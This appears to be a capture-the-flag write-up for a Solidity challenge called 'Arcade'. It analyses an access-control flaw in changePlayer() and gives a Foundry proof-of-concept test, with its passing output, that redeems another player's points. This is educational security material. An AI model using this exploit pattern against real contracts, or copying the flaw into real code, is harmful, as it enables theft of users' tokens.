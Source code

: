 # Challenge - Arcade

In this challenge, participants had to call `earn()` to accumulate points, then use `redeem()` to convert those points into tokens. However, the `earn()` function had a frequency limitation, making it difficult to gather enough points quickly.

Participants needed to devise a creative strategy to bypass this limitation and earn the necessary tokens to complete the challenge.

## Objective of

The objective of this challenge was to obtain over 200 Arcade tokens.

## Vulnerability Analysis

### Root Cause: Access Control

The `changePlayer()` function allowed anyone to redeem another player's points without proper authorization, as shown below:

```solidity
function changePlayer(address newPlayer) external onlyPlayer {
    address oldPlayer = currentPlayer;
    emit PlayerChanged(_redeem(oldPlayer), _setNewPlayer(newPlayer));
}

function redeem() external onlyPlayer {
    _redeem(msg.sender);
}


function _redeem(address player) internal returns (address) {
    uint256 points = getCurrentPlayerPoints();
    _mint(player, points);
    delete scoreboard[player];

    return player;
}
```

The challenge allocated initial points for each player as follows:

```solidity
// Set initial points for players
arcade.setPoints(you, 0);
arcade.setPoints(player1, 80);
arcade.setPoints(player2, 120);
arcade.setPoints(player3, 180);
arcade.setPoints(player4, 190);
```

By using the `changePlayer()` function, we can redeem Player 4's Arcade tokens.

### Attack steps:

1. Call `earn()` to accumulate points, then use `redeem()` to convert these points into tokens.
2. Call changePlayer() to redeem another player's Arcade tokens.

## PoC test case

```solidity
function testArcadeExploit() public {
    vm.warp(10 minutes);

    vm.startPrank(you);
    arcade.earn();
    arcade.redeem();
    arcade.changePlayer(player4);
    vm.stopPrank();

    arcadeBase.solve();
    assertTrue(arcadeBase.isSolved());
}
```

### Test Result

```
Ran 1 test for test/Arcade.t.sol:ArcadeTest
[PASS] testArcadeExploit() (gas: 133590)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 780.75µs (113.92µs CPU time)

Ran 1 test suite in 226.59ms (780.75µs CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
